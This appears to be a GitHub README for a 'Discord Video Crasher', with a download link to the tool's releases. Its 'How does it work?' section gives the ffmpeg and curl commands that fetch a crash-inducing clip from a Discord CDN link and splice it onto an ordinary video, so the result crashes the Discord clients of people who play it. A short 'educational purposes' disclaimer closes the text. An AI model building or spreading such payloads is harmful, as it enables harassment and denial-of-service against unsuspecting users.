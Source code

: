 ## Discord Video Crasher

You can download the discord video crasher [here.](https://github.com/VapeLiminator/VideoCrasher/releases)



### How does it work?

It really just works very simply:

```
//I'm going to ignore the specifying path's and othere stuff from here

# ffmpeg -i %videoname%.mp4 "01110101-01110101-01101000-01101000-01101000.mp4" 
# curl -ko "abc.mp4" "https://cdn.discordapp.com/attachments/965003761485492314/987416285216387142/FemaleAnimatedHyrax-mobile.mp4"
#(
#echo file 01110101-01110101-01101000-01101000-01101000.mp4
#echo file abc.mp4
#)>"uwu.txt"
#ffmpeg -f concat -i uwu.txt -codec copy %crashername%.mp4

//And that's the important part! the only thing left is removing the files we've created, and it's done.```

**This has been made with educational purposes, I am not in charge for what you do with this program.**

### Need help?
NeumaticYT#6969 for error's found in the program, please do not spam, thanks.
